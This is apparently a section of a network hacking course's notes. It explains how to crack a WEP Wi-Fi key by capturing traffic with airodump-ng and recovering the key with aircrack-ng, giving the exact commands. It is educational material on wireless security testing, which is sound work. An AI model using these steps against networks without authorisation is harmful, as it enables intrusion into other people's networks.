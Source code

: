 # Section 06 - Network Hacking - Gaining Access (WEP/WPA/WPA2 Cracking)

## WEP Cracking - Basic Case

Use `aircrack-ng` to analyze the data captured by `airodump-ng`.

First capture packets with:
```bash
airodump-ng --bssid=<BSSID> --channel=<CH> --write=basic_wep $IFACE
```

Let `airodump-ng` work for several seconds or several minutes to let `#Data` increase.

Run `aircrack-ng` against the captured packets with:
```bash
aircrack-ng basic_wep-01.cap
```

`aircrack-ng` outputs the key either as ASCII or as a key. If you only get the key, just remove the colons `:` to get a usable password.
